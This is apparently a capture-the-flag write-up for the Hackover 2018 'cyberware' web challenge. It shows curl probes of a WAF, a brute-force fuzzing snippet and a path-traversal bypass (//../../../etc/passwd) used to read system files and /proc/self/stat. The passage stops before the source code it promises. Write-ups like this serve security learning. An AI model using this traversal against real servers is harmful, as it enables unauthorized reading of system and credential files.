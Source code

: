 We are given a webserver, which we can read some files in the directory. How about reading other directories? After a few tests, I think the backend it's probably heavilty WAFed. For example, if we have a trailing slash:

```sh
$ curl 'http://cyberware.ctf.hackover.de:1337/fox.txt/' -sD -        
HTTP/1.1 403 You shall not list!
Server: Linux/cyber
Date: Fri, 05 Oct 2018 20:38:38 GMT
Content-type: text/cyber

Protected by Cyberware 10.1
```

Or the path starts with dot:

```sh
$ curl 'http://cyberware.ctf.hackover.de:1337/.a' -sD -        
HTTP/1.1 403 Dots are evil
Server: Linux/cyber
Date: Fri, 05 Oct 2018 21:07:18 GMT
Content-type: text/cyber

Protected by Cyberware 10.1
```

The filtering rules are listed below:

1. if len(path) == 1: path will be replaced to `/`
2. if len(path) > 1: the last character of the path cannot be `/`
3. The path cannot start with `/.`

Actually I even write a fuzzing script, trying to use a brute-force way to bypass the WAF. 
```python
from itertools import product
for i in product(*[['.', '/', './', '../', 'cat.txt'] for _ in range(4)]):
   ...
```

This script gives me some interesting findings: 

1. The path can start with multiple slashes. 
2. `../` can be used

So I try to read `/etc/passwd` by visiting `http://cyberware.ctf.hackover.de:1337//../../../etc/passwd`. It works! The next problem is to find the flag, but it's not in `/flag` nor `/home/ctf/flag`. Let's try to get more inforation:

```
/proc/self/stat
1 (cyberserver.py) S 0 1 1 34816 1 4194560 1983058 0 51 0 40392 20243 0 0 20 0 187 0 75328 268914688 4920 18446744073709551615 6074536218624 6074536221952 128479825392640 0 0 0 0 16781312 2 0 0 0 17 0 0 0 7 0 0 6074538319272 6074538319880 6075320318234 128479825398243 128479825398277 128479825398277 128479825398391 0
```

We have the filename of the source code. You can refer to [p4's writeup](https://github.com/p4-team/ctf/tree/master/2018-10-06-hackover/web_cyberware) for the complete source code. The most important snippet is:
